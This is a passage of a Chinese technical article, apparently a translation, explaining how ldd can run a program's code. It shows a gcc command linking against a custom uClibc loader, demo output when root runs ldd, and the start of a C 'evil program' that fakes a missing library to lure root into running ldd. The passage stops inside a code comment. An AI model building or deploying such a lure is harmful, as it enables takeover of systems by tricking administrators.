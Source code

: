 

```
$ L=/home/you/app/uclibc
$ gcc -Wl,--dynamic-linker,$L/lib/ld-uClibc.so.0 \
    -Wl,-rpath-link,$L/lib \
    -nostdlib \
    myapp.c -o myapp \
    $L/usr/lib/crt*.o \
    -L$L/usr/lib/ \
    -lc
```

下面是GCC的各个参数的解释：


* **-Wl,–dynamic-linker,$L/lib/ld-uClibc.so.0** — 指定一个新的装载器。
* **-Wl,-rpath-link,$L/lib** — 指定一个首要的动态装载器所在的目录，这个目录用于查找动态库。
* **-nostdlib** — 不使用系统标准库。
* **myapp.c -o myapp** — 编译myapp.c 成可执行文件 myapp,
* **$L/usr/lib/crt\*.o** — 静态链接runtime 代码
* **-L$L/usr/lib/** — libc 的目录（静态链接）
* **-lc** —  C 库


现在让我们来运行一下我们的 `myapp` （没有ldd，一切正常）



```
app/bin$ ./myapp
Nothing.
```

LD\_TRACE\_LOADED\_OBJECTS 没有设置，所以输出 “Nothing” 。


现在，让我们来使用 `ldd` 来看看这个程序的最大的影响力，让我们以root身份来干这个事。



```
$ su
Password:
# ldd ./myapp
All your things are belong to me.
```

哈哈，我们可以看到，ldd触发了我们的恶意代码。于是，我们偷了整个系统！


#### 邪恶的程序


下面这个例子更为实际一些，如果没有`ldd` ，那程序程序会报错 “error while loading shared libraries” ，这个错误信息会引诱你去去使用 `ldd` 去做检查，如果你是root的话，那么就整个系统就玩完了。而当你可以了 `ldd` 后，它会在干完坏事后，模仿正确的`ldd`的输出，告诉你 `libat.so.0` 不存在。


下面的代码仅仅是向你展示了一下整个想法，代码还需加工和改善。



```
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <sys/types.h>

/*
This example pretends to have a fictitious library 'libat.so.0' missing.
When someone with root permissions runs `ldd this_program`, it does
something nasty in malicious() function.

I haven't implemented anything malicious but have written down some ideas
of what could be done.

```